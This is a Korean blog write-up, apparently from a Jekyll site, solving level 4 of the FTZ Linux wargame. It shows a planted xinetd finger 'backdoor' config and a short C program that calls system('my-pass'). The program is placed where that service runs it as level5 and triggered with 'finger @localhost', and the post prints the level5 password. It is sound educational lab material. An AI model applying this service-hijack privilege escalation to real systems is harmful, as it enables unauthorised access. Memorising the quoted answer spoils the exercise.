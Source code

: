 ```yaml
---
layout: post
title: ! "[FTZ] level 4"
categories: [FTZ]
excerpt: " "
comments: true
share: true
tags:
  - FTZ
---
```


id = level4 pw = level4

![](/assets/posts/ftz/level4.png)

level4 의 hint를 보면 누군가 `/etc/xinetd.d/에 백도어를 심어놓았다!` 라고 뜬다.
디렉토리 이동을 하고 파일 목록을 보면 backdoor가 보인다.

![](/assets/posts/ftz/xinetd.png)

backdoor 파일은 read 할 수 있고, 열어보면 아래와 같이 뜬다.

```c
[level4@ftz xinetd.d]$ cat backdoor
service finger
{
	disable	= no
	flags		= REUSE
	socket_type	= stream
	wait		= no
	user		= level5
	server		= /home/level4/tmp/backdoor
	log_on_failure	+= USERID

}
```

다른 파일들을 열었을때는 이런식으로 service (읽은 파일명) { ... } 인데

```c
[level4@ftz xinetd.d]$ cat services
# default: off
# description: An internal xinetd service, listing active services.
service services
{
	disable	= yes
	type		= INTERNAL UNLISTED
	port		= 9098
	socket_type	= stream
	protocol	= tcp
	wait		= no
	only_from	= 127.0.0.1
}
```

backdoor는 `service finger` 가 뜬다.

그럼 finger를 보자.

```c
[level4@ftz xinetd.d]$ cat finger
# default: on
# description: The finger server answers finger requests. Finger is \
#	a protocol that allows remote users to see information such \
#	as login name and last login time for local users.
service finger
{
	disable	= yes
	socket_type	= stream
	wait		= no
	user		= nobody
	server		= /usr/sbin/in.fingerd
}
```

우선, backdoor의 server 부분  /home/level4/tmp/ 로 이동하면 아무 파일도 없다.
그럼 이 디렉토리에 level5의 패스워드를 알려주도록 코드를 짜서 backdoor 로 만들면 어떨까

```c
#include<stdio.h>
#include<stdlib.h>

int main(void) {
        system("my-pass");
        return 0;
}
```

그냥 backdoor를 실행시켜 버리면 level4의 pw가 뜨므로 소용이 없다.
finger를 이용해야 하는데, finger 명령어는 리눅스에서 사용자의 계정정보를 확인하는 명령어이다.
$finger @host명을 입력하면 해당서버에 접속해 있는 모든 유저의 정보를 출력한다.
그래서 $ finger @localhost 를 입력해 finger 서비스를 실행시키면 된다.

![](/assets/posts/ftz/level4_clear.png)

`Level5 Password is "what is your name?".`
